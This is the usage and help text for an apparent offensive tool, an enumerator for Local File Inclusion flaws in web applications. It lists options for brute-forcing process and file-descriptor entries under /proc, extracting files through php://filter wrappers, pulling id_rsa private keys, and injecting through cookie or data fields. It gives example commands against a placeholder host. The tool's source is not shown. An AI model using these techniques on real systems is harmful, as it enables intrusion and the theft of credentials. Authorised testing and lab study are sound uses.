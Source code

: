 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

<pre>
Local File Inclusion Enumerator v1.0 by 0bfxgh0st*
Usage python3 lfienum &lturl> &ltoption>

Options:

    -X POST/GET                   Request method

    --pids &ltn>                    Bruteforce process id's from 0 to &ltn> (/proc/&ltn>/cmdline) [default is set to 999]
    --pid &ltn>                     Show single process id
    --fd &ltn>                      Bruteforce file descriptors from 0 to &ltn> (/proc/self/fd/&ltn>) [default is set to 30]
    --wrapper &ltfile>              Extract/decode hidden file using a wrapper (php://filter/convert.base64-encode/resource=)
    -w,  --wordlist &ltwordlist>    Use a custom wordlist
    -k,  --key                    Extract id_rsa key

    -h,  --help                   Show help panel
    -ah, --advanced-help          Show advanced help panel

    -v,  -vvv                     Show package info
    -ou, --only-url               Dump urls only

    -x1                           Use XCF_A function print all text between tags (default)
    -x2                           Use XCF_B function print all text that isn't between any tag
    -x3                           Use XCF_C function print content between specific tag
    -x4                           Use XCF_D function delete all content inside &lthtml> and &lt/html> tags
    --exclude &ltstring>            Exclude responses that contains given string

Enumeration modes:

    --data-mode &ltkey name>        Data mode (LFI enumeration via data key)
    --cookie-mode &ltkey name>      Cookie mode (LFI enumeration via cookie key)

Examples:

    python3 lfienum "http://ghost.server/index.php?page="
    python3 lfienum "http://ghost.server/" --cookie-mode session
    python3 lfienum "http://ghost.server/index.js" --data-mode file
</pre>
